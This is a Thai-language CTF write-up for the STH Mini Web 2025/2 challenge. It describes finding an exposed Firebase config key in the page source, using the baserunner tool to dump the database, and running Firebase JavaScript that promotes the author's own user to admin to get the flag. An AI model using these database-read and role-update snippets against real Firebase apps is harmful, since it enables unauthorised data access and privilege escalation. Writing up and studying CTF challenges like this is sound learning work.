










# STH-Mini-Web-CTF-2025-2
STH Mini Web CTF 2025/2 Write-up

## แนะนำตัว
สวัสดรครับวันนี้ผมจะมา Write-up โจทย์ STH Mini Web
ชึ่งนี้เป็น Write-up แรกท่าผิดพลาดประการใดขออภัยไว้ ณ ที่นี้ด้วยครับ
ท่าต้องการ สาระและบทสรุปให้ไปที่
- [สรุป](#สรุป)

## โจทย์


## เริ่มกันเลยดีกว่า
เมื่อเวลา 19.50น. ในช่วง3วิสุดท้าย สมรภูมิเดือดก็ได้เริ่มขึ้น 3 2 1. 
<br>

<br>
ในเวลา 19.58น. ในตอนที่กำลังโดดล่มอยู่นั้นเองก็ได้ยินเสียงแชทจากพี่ๆในกลุ่มว่า " หยุดกูไม่อยู่แล้ววตอนนี้ "  ใช้ครับพี่ๆเค้าทำเสร็จแล้วหลังจากนั้นก็รู้ตัวแล้วเข้าไปใน challenge 

จากนั้น ผมก็ได้ลองเข้าไปสมัครสมาชิกและเข้าสู่ระบบ 

ก็ดูเหมือนไม่มีอะไรเป็นพิเศษ จากนั้นผมก็ใช้คำสั่ง
` curl https://minictf2.p7z.pw `
และในตอนนั้นเองผมก็เจอ!! เจอคนอยู่ทิศW เสียงพี่ใน discord ดังขึ้นมาก็เลยต้องรีบสลับจอไปยิงก่อน
โอเคกลับเข้าเรื่อง หลังจากที่ใช้`curl https://minictf2.p7z.pw`ผมก็เจอ2อย่าง
1. API key

2. ปุ่มที่ซ่อนอยู่


<br>


และในวินาทีที่ได้เจอ` apikey `และด้วยประสบการณ์พร้อม common sense ที่มีมายาวนานผมก็เลยย

จากที่ GPT สรุปมา` apikey `ที่ได้มาคือข้อมูลเกี่ยวกับ firebase-config ที่อาจจะสามราถเพิ่มหรือแก้ไขข้อมูลของ user ฝั่ง backendได้
จากนั้นผมก็ตีกับแชทอยู่ 5 ซม. แต่ก็ไม่ได้อะไรเลย จากนั้นก็เริ่มหาข้อมูลใน youtube และได้ไปเจอช่อง HackHunt [คลิปนี้](https://www.youtube.com/watch?v=1KPd5gRQbKw) โดยเนื้อหาในคลิปมีการเข้าไปที่เว็บ [HackTricks](https://book.hacktricks.wiki/en/index.html) จากนั้นผมก็ได้หาข้อมูลไปเลื่อยๆ <br> จนกระทั้งผมได้เจอ blog ที่เขียนเกี่ยวกับ` firebase-config ` [ลิ๊งนี้](https://cloud.hacktricks.wiki/en/pentesting-cloud/gcp-security/gcp-services/gcp-firebase-enum.html?fbclid=IwY2xjawOJZLNleHRuA2FlbQIxMABicmlkETFldHpGWm1UY0ZYdVY5RHB3c3J0YwZhcHBfaWQQMjIyMDM5MTc4ODIwMDg5MgABHvGi_PRhTLWWBnk9HyDnIJe0V5WjhRmkw55SKCopJrKEhzC6pmZ11zJXc6pi_aem_-kr0jU5zgkXgYOaChwDE1A#authenticated-enum) และได้เจอ tool [baserunner](https://www.youtube.com/watch?v=1KPd5gRQbKw) ของคุณ [dmyates](https://github.com/dmyates)


โอเคเมื่อได้ tool มา
<br>
ใส่ข้อมูล firebase-config และ login
<br>

<br>
ค้นหาข้อมูลใน database ด้วย
<br>
`
```
window.db.ref("/").get().then(function(snapshot) {
  if (snapshot.exists()) {
    window.displayObject(snapshot);
  }
  else {
    window.displayMessage("No data available");
  }
}).catch(function(error) {
  window.displayError(error);
});
```
`
<br>

<br>
จาดนั้นก็หาข้อมูล user ตัวเองก็จะได้ `` RjVUrCIRDJQmsfmJTnnHLqLDY7m2 ``
<br>

<br>
จากนั้นเราจะเปลี่ยน role: "admin", controlUnlocked: true
ด้วย <br>

```
window.db.ref("users/RjVUrCIRDJQmsfmJTnnHLqLDY7m2").update({
    role: "admin",
    controlUnlocked: true
})
.then(() => {
    window.displayMessage("🎉 Updated to admin!");
})
.catch(error => {
    window.displayError(`❌ Error: ${error}`);
});

```

<br>
จากนั้นก็ login เข้าสู่ระบบ เราก็จะได้ flag
<br>

## สรุป
